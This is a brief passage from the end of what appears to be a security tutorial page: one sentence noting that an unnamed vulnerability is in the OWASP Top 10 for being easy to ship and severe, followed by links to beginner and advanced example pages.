ranked in the OWASP Top 10 precisely because it is so easy to ship by accident and so severe once shipped.

---

← Previous: [Beginner Examples](./beginner.md) &middot; Next: [Advanced Examples](./advanced.md) →
